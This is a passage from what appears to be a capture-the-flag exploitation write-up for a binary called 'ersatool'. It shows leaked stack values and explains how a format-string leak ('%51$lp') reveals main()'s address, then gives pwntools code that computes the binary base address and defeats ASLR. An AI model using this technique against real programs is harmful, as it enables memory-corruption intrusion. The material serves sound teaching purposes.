 ```console
37 (nil)
38 0x7ffdc8e54940
39 0x5615109d4f83
40 0x7ffdc8e54a28
41 0x100000000
42 0x5615109d5070
43 0xa746e697270
44 (nil)
45 0x100000000
46 0x5615109d5070
47 0x7f4a39ba0b97
48 0x2000000000
49 0x7ffdc8e54a28
50 0x100000000
51 0x5615109d4e5b
52 (nil)
53 0xcc040442782a621f
54 0x5615109d41d0
55 0x7ffdc8e54a20
56 (nil)
57 (nil)
58 0x9fd5b4b24a6a621f
59 0x9eba560cce54621f
60 0x7ffd00000000
```

Bypassing ASLR is relatively simple, since the randomized base address always ends on three hexadecimal zeros. Hence, if we know the last three hexadecimal digits of an offset, we can easily identify the real address.

Let's take the offset of the `main` function:

```console
$ readelf -s ersatool | grep ' main'
    86: 0000000000001e5b   524 FUNC    GLOBAL DEFAULT   14 main
```

If we have a look at the values above, we discover that position 51 is `0x5615109d4e5b`, it ends with `e5b`. Then, we have found a way to leak the real address of `main` using `%51$lp` as a format string:

```python
main_addr = get_value(51)
print('Address of main():', hex(main_addr))
```

**Task 3**: The base address of the binary is likely to be `0x5615109d4e5b - 0x1e5b = 0x5615109d3000` (it will be different on every execution of the program):

```python
elf = context.binary = ELF('./ersatool', checksec=False)
libc = ELF('./libc.so.6', checksec=False)

elf.address = main_addr - elf.symbols.main
print('Binary base address:', hex(elf.address))
```

